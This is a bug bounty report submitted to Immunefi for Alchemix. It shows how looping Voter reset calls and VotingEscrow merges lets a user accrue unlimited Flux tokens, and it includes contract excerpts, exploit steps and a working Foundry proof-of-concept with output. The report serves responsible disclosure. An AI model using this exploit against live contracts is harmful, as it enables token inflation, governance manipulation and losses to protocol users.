 
# Users can get unlimited amounts of Flux tokens

Submitted on Mon May 06 2024 15:36:36 GMT-0400 (Atlantic Standard Time) by @imsrybr0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30825

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Users can get unlimited amounts of Flux tokens.

## Vulnerability Details
```solidity
// ...
contract VotingEscrow is IERC721, IERC721Metadata, IVotes, IVotingEscrow {
    // ...
    function merge(uint256 _from, uint256 _to) external {
        require(!voted[_from], "voting in progress for token");
        // ...
        IFluxToken(FLUX).mergeFlux(_from, _to);
        // ...
    }
    // ...
}
```

```solidity
// ...
contract FluxToken is ERC20("Flux", "FLUX"), IFluxToken {
    // ...
    function mergeFlux(uint256 _fromTokenId, uint256 _toTokenId) external {
        require(msg.sender == veALCX, "not veALCX");

        unclaimedFlux[_toTokenId] += unclaimedFlux[_fromTokenId];
        unclaimedFlux[_fromTokenId] = 0;
    }
    // ...
}
```

```solidity
// ...
contract Voter is IVoter {
    // ...
    function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        lastVoted[_tokenId] = block.timestamp;
        _reset(_tokenId);
        IVotingEscrow(veALCX).abstain(_tokenId);
        IFluxToken(FLUX).accrueFlux(_tokenId);
    }
    // ...
}
```

* The `VotingEscrow@merge` function only checks if the token being merged voted `yes`. It also merges the unclaimed Flux earnings of the merge tokens.
* The `Voter@reset` function :
  * Doesn't check if the given token id has any votes to reset before doing so.
  * Votes `no` on the `VotingEscrow`
  * Accrues Flux earning for the given token id

Under those conditions, a user can :
1) Start by locking an amount of tokens in `VotingEscrow` and get `Token ID N` in return
2) Call `Voter@reset` for `Token ID N` to accrue Flux earning for that token.
3) Lock a dust amount of tokens in `VotingEscrow` and get `Token ID M` in return
4) Call `VotingEscrow@merge` to merge `Token ID N` into `Token ID M` which will add the first token unclaimed Flux earning to the second one.

Steps 2), 3) and 4) can be repeated as needed carrying over unclaimed Flux earnings from the previous token to the next one and accruing them again.

## Impact Details
* Artificially boost voting power for gauges voting. 
* Claim Flux ERC20 tokens to :
  * Sell them
  * Use them to ragequit for free

## References
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol#L618-L651
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L183-L192
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol#L180-L185

        
## Proof of concept
## Proof of Concept
```solidity
    function testMergeFlux() public {
        uint256 previousTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
        console2.log("Starting Unclaimed Flux", flux.unclaimedFlux(previousTokenId));

        uint256 nextTokenId;

        vm.startPrank(admin);
        voter.reset(previousTokenId);

        console2.log("Unclaimed Flux after reset", flux.unclaimedFlux(previousTokenId));

        for (uint256 i; i < 10; i++) {
            nextTokenId = createVeAlcx(admin, 1, MAXTIME, true);

            veALCX.merge(previousTokenId, nextTokenId);

            voter.reset(nextTokenId);

            previousTokenId = nextTokenId;
        }

        console2.log("Unclaimed Flux after 10 iterations", flux.unclaimedFlux(nextTokenId));

        flux.claimFlux(nextTokenId, flux.unclaimedFlux(nextTokenId));

        console2.log("Flux ERC20 balance", flux.balanceOf(admin));
    }
```

## Results
```console
[⠒] Compiling...
Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testMergeFlux() (gas: 9703837)
Logs:
  Starting Unclaimed Flux 0
  Unclaimed Flux after reset 984526667926843455
  Unclaimed Flux after 10 iterations 10829793347195278005
  Flux ERC20 balance 10829793347195278005

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 32.92s (24.57s CPU time)

Ran 1 test suite in 34.78s (32.92s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```